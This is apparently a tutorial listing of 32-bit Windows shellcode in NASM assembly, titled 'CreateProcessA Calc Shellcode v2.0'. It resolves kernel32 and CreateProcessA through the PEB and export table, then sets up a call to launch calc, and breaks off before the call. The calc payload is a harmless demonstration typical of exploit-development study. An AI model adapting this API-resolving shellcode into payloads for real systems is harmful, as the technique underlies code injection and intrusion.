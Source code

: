 ### CreateProcessA Calc Shellcode v2.0
```nasm
global_start


section .text
_start: 

xor ecx, ecx
mul ecx
mov eax, [fs:ecx + 0x30] ; PEB offset
mov eax, [eax + 0xc]     ; LDR offset
mov esi, [eax + 0x14]    ; InMemOrderModList
lodsd                    ; 2nd module
xchg eax, esi            ; 
lodsd                    ; 3rd module
mov ebx, [eax + 0x10]    ; kernel32 base address
mov edi, [ebx + 0x3c]    ; e_lfanew offset
add edi, ebx             ; offset + base
mov edi, [edi + 0x78]    ; export table offset
add edi, ebx             ; offset + base
mov esi, [edi + 0x20]    ; namestable offset
add esi, ebx             ; offset + base
xor ecx, ecx             ; 

; this code works the same as previously, we're just using some new operators we already mentioned and utilizing new registers to avoid xoring out registers too often
Get_Function:
 
inc ecx                             
lodsd                                
add eax, ebx                        
cmp dword [eax], 0x61657243          
jnz Get_Function
cmp word [eax + 0xa], 0x41737365	   
jnz Get_Function
mov esi, [edi + 0x24]                
add esi, ebx                         
mov cx, [esi + ecx * 2]             
dec ecx
mov esi, [edi + 0x1c]                
add esi, ebx                         
mov edi, [esi + ecx * 4]             
add edi, ebx                         

mov cl, 0xff

zero_loop:
push edx
loop zero_loop

push 0x636c6163                      ; "calc"
mov ecx, esp

push ecx
push ecx
push edx
push edx
push edx
push edx
push edx
push edx
push ecx
```